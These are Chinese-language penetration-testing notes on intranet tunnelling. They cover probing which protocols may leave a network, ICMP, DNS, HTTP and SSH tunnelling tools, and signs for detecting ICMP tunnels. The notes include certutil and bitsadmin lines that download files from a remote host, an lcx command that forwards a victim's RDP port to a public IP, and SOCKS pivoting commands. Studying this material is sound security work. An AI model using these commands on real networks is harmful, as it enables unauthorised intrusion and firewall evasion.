

# 内网穿透-隧道

> [渗透测试之内网渗透（二）：内网穿透_渗透测试内网穿透各类工具使用情况-CSDN博客](https://blog.csdn.net/m0_74131821/article/details/130322657)
>
> [内网渗透系列：内网穿透（隧道）学习_隧道内网穿透-CSDN博客](https://blog.csdn.net/weixin_44604541/article/details/118305353)

## 1. 内网穿透概述

### 1.1 概述

> 参考链接：https://www.geekby.site/2020/08/%E5%86%85%E7%BD%91%E9%9A%A7%E9%81%93%E7%A9%BF%E9%80%8F/

内网穿透：利用各种隧道技术，寻找防火墙允许的协议，混杂在正常流量中穿透，绕过网络防火墙的封锁，实现访问被封锁的目标网络。

隧道技术：一种通过使用互联网络的基础设施在网络之间传递数据的方式，包括数据封装、传输和解包在内的全过程，使用隧道传递的数据(或负载)可以是不同协议的数据帧或包。

* 封装：隧道协议将这些其他协议的数据帧或包重新封装在新的包头中发送。新的包头提供了路由信息，从而使封装的负载数据能够通过互联网络传递
* 传输：被封装的数据包在隧道的两个端点之间通过公共互联网络进行路由。被封装的数据包在公共互联网络上传递时所经过的逻辑路径称为隧道
* 解包：一旦到达网络终点，数据将被解包并转发到最终目的地

隧道协议的主要作用包括：**规避防火墙**、**绕过出网协议的限制**、**加密网络流量**。

常见的隧道列举如下：

- 应用层：SSH、HTTP、HTTPS、DNS。
- 传输层：TCP、UDP、常规端口转发。
- 网络层：IPv6、ICMP、GRE。

> 关于木马通信使用的协议演变历史可参考：https://cloud.tencent.com/developer/article/1832949?from=article.detail.1419096

### 1.2 内网主机出网方式

#### (1) ICMP协议出网

网络防火墙允许ICMP协议出网，即能ping通外网主机。判断是否允许ICMP协议出网的方式

```
ping ip/domain
tracert ip/domain
```

若只允许ICMP协议出网，可以通过ICMP隧道来解决，也可以解决IPS对HTTP等流量类型检测比较严格问题

#### (2) 传输层特定端口出网

网络防火墙允许特定的TCP或者UDP端口出网，比如连接外网的22、53、80、443、3389等常见应用的默认监听端口。

判断方式：

```
telnet ip port   #TCP
nc -zv ip port   #TCP
nc -zuv ip port  #UDP
curl/wget certutil等判断http出网的话、TCP就能出网
```

在一个不能出网的网络环境里面，将所有的TCP和UDP端口都探测一遍，通常都能发现有一两个常见的端口能出网。这通常是由于网络管理员的错误配置和偷懒行为导致：比如网络管理员配置允许Web服务器访问另一主机的mysql数据库的3306端口，网络管理员配置时偷懒，可能会直接放行Web服务器到任意IP的3306端口。

这种情况就其实就属于能出网了，不需要网络隧道，只需要攻击者本地监听防火墙允许出网的端口，让目标主机将shell反弹到该端口即可。

#### (3) 特定的应用层协议出网

（比如HTTP、SSH、DNS等应用层协议）

网络防火墙能识别应用层的协议，放行允许出网的协议，比如HTTP、SSH、DNS、RDP等应用层协议

判断方式-HTTP/HTTPS：(下面的URL中的http均可替换成https)

```
linux:
curl http://ip or domain
wget http://ip or domain

Windows: 
start http://www.baidu.com
explorer http://www.baidu.com
certutil.exe -urlcache -split -f http://ip:port/xxx
bitsadmin /transfer 任务名 http://ip:port/xxx 绝对路径\文件名
```

判断DNS出网

```
linux：
dig @8.8.8.8 www.baidu.com
nslookup www.baidu.com 8.8.8.8

windows：
nslookup www.baidu.com 8.8.8.8
```

判断SSH出网

```
netstat -ntlp |grep ssh
ssh -p 22 user@ip   #试一下就知道了
```


## 2. 隧道工具

### 2.1 网络层隧道工具

> ICMP协议出网

#### (1) 使用场景及原理

**使用场景**

1）某主机只允许ICMP协议出网，只需要将ICMP隧道工具客户端放到目标主机上并执行

2）防火墙不限制ICMP协议或检测能力较弱

3）目标主机配置了微隔离(不禁ping，不出网，只有web服务的固定端口可访问)，只有一个webshell，想要上线其他C2工具

4）用作权限维持，将攻击者的控制流量隐藏在ICMP流量中

**原理**

关于ICMP请求，Windows和Linux是不同的：

* Windows系统默认传输32 bytes的数据，内容是固定的`abcdefghijklmnopqrstuvwabcdefghi`，ping包的大小是可以改变的，但是内容依旧不变，且请求和响应内容相同

* Linux系统默认传输48 bytes的数据，头信息比较复杂，但是末尾内容是固定`!”#$%&’()+,-./01234567`

下图报文142和143为Windows系统的Request和Reply包。


下图报文7和10为Linux系统的Request和Reply包。




**ICMP隐蔽隧道的原理**：替换Data部分，利用客户端程序进行接收并处理服务端发送的畸形的ICMP协议（主要是Request和Reply包）

**检测方式**：

* 检测同一来源 ICMP 数据包的数量。一个正常的 ping 每秒最多只会发送两个数据包，而使用 ICMP隧道在同一时间会产生上千个 ICMP 数据包。
* 寻找那些响应数据包中 payload 跟请求数据包不一致的 ICMP 数据包。
* 注意那些 ICMP 数据包中 payload 大于 64 比特的数据包（当然有的工具可以配置限制所有数据包的payload为64比特，这样会使得更难以被检测到）。
* 检查ICMP数据包的协议标签，例如icmptunnel工具会在所有的payload前面增加`TUNL`标记以用于识别隧道，这就是特征。

#### (2) ICMP隧道工具

##### ptunnel

[ptunnel | Kali Linux Tools](https://www.kali.org/tools/ptunnel/)

kali自带，具体使用及其流量分析**参考文档：[ICMP隧道-ptunnel](./隧道工具使用记录.md#_1-1-ptunnel)**

##### pingtunnel

https://github.com/esrrhs/pingtunnel

TCP、UDP、socks5 over ICMP，速度快，连接稳定，跨平台，client模式不需要管理员权限即可正常使用，推荐使用。

可**参考文档[ICMP隧道-pingtunnel](./隧道工具使用记录.md#_1-2-pingtunnel)**

##### icmpsh

https://github.com/bdamele/icmpsh

能通过ICMP协议反弹cmd，功能单一，反弹回来的cmd极不稳定，不推荐使用。可参考：https://www.freebuf.com/news/210450.html

##### icmptunnel

https://github.com/DhavalKapil/icmptunnel

创建虚拟网卡通过ICMP协议传输网卡流量，基于ICMP隧道的vpn，需要root权限，动静极大，不推荐使用


### 2.1 传输层隧道工具

#### (1) 使用场景

* 内网IP无法直接访问

* 只有特定端口出网

#### (2) 传输层隧道工具

##### netcat

官网：https://eternallybored.org/misc/netcat/

##### powercat

powershell版的netcat

github：https://github.com/besimorhino/powercat

##### socat

具有记录转发流的功能，方便查看转发内容，需要安装

github：https://github.com/erluko/socat 

##### netsh

windows系统自带的网络配置工具

官网：https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts  

##### lcx

github：https://github.com/windworst/LCX

下面是几条常用命令记录：

```shell
# 将lcx.exe上传到受害者主机上（内网机器192.168.1.123），将其3389端口转发到一个公网IP的8080端口。
lcx.exe -slave 11.11.11.11 8080 192.168.1.123 3389
# 将本机端口8080上监听的所有数据转发到本机9000上
lcx.exe -listen 8080 9000
# 此时攻击者访问127.0.0.1:9000即可访问到内网的远程桌面，从而突破了内网私有ip的限制。

# 将本机端口9000上监听的所有数据转发到192.168.1.123的8080。跳板机上执行一下，可以直接访问到内网的对应站点了
lcx.exe -tran 9000 192.168.1.123 8080
```

##### NATBypass

一款lcx在golang下的实现，命令和上面的lcx一样

github：https://github.com/cw1997/NATBypass   

##### iox

端口转发 & 内网代理工具，功能类似于lcx/ew，**简化了命令行参数**，支持UDP流量转发，支持流量加密。不支持监听指定IP，默认监听0.0.0.0:port，会增大暴露风险

github：https://github.com/EddieIvan01/iox

##### frp

用Go写的，支持TCP、UDP、HTTP、HTTPS协议，同时也支持P2P，仍在持续更新

github：https://github.com/fatedier/frp


### 2.3 应用层隧道工具

#### (1) 使用场景

特定的应用层协议出网，主要还是DNS隧道和socks代理

#### (2) 应用层隧道工具

由于应用层协议极多，对应的隧道工具也很多，我们常用来做隧道的协议一般是DNS、HTTP、SSH、SOCKS等

##### ssh

ssh本身可以用来做隧道，如果没被限制的话

构建ssh隧道的常用参数:

```
-C 压缩传输，提高传输速度
-f 后台执行数据传输
-N 建立静默连接
-g 允许远程主机连接本地用于转发的端口
-L 本地端口转发
-R 远程端口转发
-D 动态转发，即SOCKS代理
-p 指定ssh连接端口
```

**本地转发：**

用法1：本地端口映射到远程。在 HostB 上运行

```shell
HostB$ ssh -CNfg -L PortB:HostC:PortC user@HostC
# HostB 上启动一个 PortB 端口，映射到 HostC:PortC 上，
```

这时访问 HostB:PortB 相当于访问 HostC:PortC（和 iptable 的 port-forwarding 类似）。

用法2：本地端口通过跳板映射到其他机器。在 HostA 上运行：

```shell
HostA$ ssh -CNfg -L PortA:HostC:PortC  user@HostB
# HostA 上启动一个 PortA 端口，通过 HostB 转发到 HostC:PortC上，
```

这时访问 HostA:PortA 相当于访问 HostC:PortC。

两种用法的区别是，第一种用法本地到跳板机 HostB 的数据是明文的，而第二种用法一般本地就是 HostA，访问本地的 PortA，数据被 ssh 加密传输给 HostB 又转发给 HostC:PortC。

**远程转发：**让远端启动端口，把远端端口数据转发到本地。

HostA 将自己可以访问的 HostB:PortB 暴露给外网服务器 HostC:PortC，在 HostA 上运行：

```shell
HostA$ ssh -CNfg -R HostC:PortC:HostB:PortB  user@HostC
# HostA的ssh服务端监听7777, 将收到的tcp数据包通过连接到HostB的ssh隧道，转发到HostC:PortC，效果是访问HostA本地的7777就相当于访问HostC:PortC
```

那么链接 HostC:PortC 就相当于链接 HostB:PortB。使用时需修改 HostC 的 /etc/ssh/sshd_config，添加：

```shell
GatewayPorts yes
```

> 相当于-L参数区别：比如 HostA 和 HostB 是同一个内网下的两台可以互相访问的机器，HostC是外网跳板机，HostC不能访问 HostA，但是 HostA 可以访问 HostC。那么通过在内网 HostA 上运行 `ssh -R` 告诉 HostC，创建 PortC 端口监听，把该端口所有数据转发给我（HostA），我会再转发给同一个内网下的 HostB:PortB。

同内网下的 HostA/HostB 也可以是同一台机器，换句话说就是**内网 HostA 把自己可以访问的端口暴露给了外网 HostC**。

**动态转发：**socks代理

```shell
ssh -CNfg -D 127.0.0.1:7777 root@192.168.1.1
# ssh客户端监听127.0.0.1:7777开启socks服务，将收到的socks数据包通过连接到192.168.1.1的ssh隧道转发到ssh服务端，再由ssh服务端转发到目标地址，也就是只要知道一个内网主机的密码，就可以用它上面的ssh服务转发流量了。
```

##### dns2tcp

**实际使用记录：[DNS隧道-dns2tcp](./隧道工具使用记录.md#_2-2-dns2tcp)**

TCP over DNS，即通过DNS隧道转发TCP连接，没有加密。采用直连，但速度不是特别乐观，优势在于kali直接集成了这个工具，部分linux发行版也都可以直接通过包工具下载，相对方便

github：https://github.com/alex-sector/dns2tcp

可参考：https://cloud.tencent.com/developer/article/1552172?from=article.detail.1419096

##### iodine

**实际使用记录：[DNS隧道-iodine](https://echo0d.github.io/DailyNotes/AD/Tools/Tunnel.html#_2-1-iodine)**

IPv4 over DNS，即通过DNS隧道转发IPv4数据包，在编码，请求类型上提供了更丰富的选择，而且在速度方面更快github：https://github.com/yarrick/iodine

可参考： https://cloud.tencent.com/developer/article/1552172?from=article.detail.1419096

##### dnscat2

IP over DNS通过 DNS 协议创建加密的命令和控制 (C&C) 通道

github：https://github.com/iagox86/dnscat2

可参考：https://cloud.tencent.com/developer/article/1474644?from=article.detail.1552172
https://cloud.tencent.com/developer/article/1419096

##### dnscat2-powershell

dnscat2的powershell客户端

github：https://github.com/lukebaggett/dnscat2-powershell

##### reGeorg

github：https://github.com/sensepost/reGeorg

SOCKS over HTTP，即通过HTTP隧道转发SOCKS，用Python写的，基于Python2.7和urllib3，上传一个tunnel脚本（提供了ashx, aspx, js, jsp, php），然后远程连接转发端口即可建立socket代理隧道，例如

```shell
$ python reGeorgSocksProxy.py -p 8080 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp
```

##### Neo-reGeorg

重构版reGeorg，提高稳定性和可用性，避免特征检测，更新活跃

github：https://github.com/L-codes/Neo-reGeorg

##### reDuh

  TCP over HTTP,即通过HTTP隧道转发TCP连接

  github：https://github.com/sensepost/reDuh

##### Tunna

  TCP、SOCKS over HTTP，即通过HTTP隧道转发TCP连接和SOCKS

  github：https://github.com/SECFORCE/Tunna

##### ABPTTS

  TCP over HTTP，即通过HTTP隧道转发TCP连接

  github：https://github.com/nccgroup/ABPTTS

##### EarthWorm（EW）

  十分方便的多级SOCKS代理

  官网：http://rootkiter.com/EarthWorm/

  github：https://github.com/rootkiter/Binary-files

  下载：https://github.com/rootkiter/Binary-files/tree/bd3223082afbf88421fe391eb55b9eb2da7d533e

  ```
# 5种管道
ssocksd : 正向代理
rssocks : 反向代理
lcx_slave： 该管道一侧通过反弹方式连接代理请求，另一侧连接代理提供主机
lcx_tran : 该管道通过监听本地端口代理请求，并转发给代理提供主机
lcx_listen : 该管道通过监听本地端口接收数据，并将其转发给目标网络回连的代理提供主机
  ```

##### Termite

  EarthWorm的升级版，已经永久停止更新

  官网：http://rootkiter.com/Termite/

  github：https://github.com/rootkiter/Binary-files/tree/bd3223082afbf88421fe391eb55b9eb2da7d533e

##### Venom

  Venom是一款基于ssh隧道，为渗透测试人员设计的使用Go开发的多级代理工具

  github：https://github.com/Dliv3/Venom/

##### ssocks

  github：https://github.com/54Pany/sSocks

  正向和反向的socks工具，可执行文件的大小很小，支持socks5验证，支持IPV6和UDP

##### s5.go

  go语言编写的socks服务工具，良好的跨平台特性

  github：https://github.com/ring04h/s5.go
